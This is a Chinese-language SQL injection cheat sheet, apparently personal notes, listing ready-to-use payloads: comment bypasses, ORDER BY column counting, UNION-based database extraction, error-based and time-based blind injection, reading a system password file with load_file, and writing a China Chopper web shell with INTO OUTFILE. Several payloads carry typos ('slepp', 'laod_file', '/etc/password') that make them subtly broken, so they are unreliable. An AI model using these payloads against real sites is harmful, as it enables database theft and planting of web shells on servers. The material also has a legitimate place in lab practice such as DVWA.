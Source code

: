 ## 手工注入

### 大佬文章推荐

[肖洋肖恩、](https://www.cnblogs.com/-mo-/p/12730682.html)

## 常用的 playload

### 注释

```sql
or 1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+
--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
--+ SELECT * FROM users WHERE id=''or 1=1--+' LIMIT 0,1
```

### 联合注入

判断字段数目,`?id=1' order by 1 --+ `此时页面正常，
继续换更大的数字测试`?id=1' order by 10 --+` 此时页面返回错误，
更换小的数字测试`?id=1' order by 5 --+ `此时页面依然报错，
继续缩小数值测试`?id=1' order by 3 --+ `此时页面返回正常，
更换大的数字测试`?id=1' order by 4 --+` 此时页面返回错误，3 正常，4 错误，说明字段数目就是 3

```sql
?id=1' order by 4--+
```

拿到数据库名

```sql
?id=0' union select 1,2,3,database()--+
```

### 报错爆出信息

通过 id=-1 一个负数不存在的 id 值来触发报错

```sql
id=-1' UNION SELECT 1,2,3
```

通过 or 1=1 语句来触发报错

```sql
id=1' or 1=1 UNION SELECT 1,2,3
```

### 基于时间的盲注

```sql
1' and slepp(5) --'
--+ select first_name, last_name from dvwa.users where user_id='1' and sleep(5) --'
```

### 读取文件

```sql
=1' and 1=2 union select laod_file('/etc/password') #
```

### 文件写入

文件写入配合菜刀提权。

```sql
=1 and 1=2 union select '菜刀木马内容' into outfile '文件目录+文件名'
```
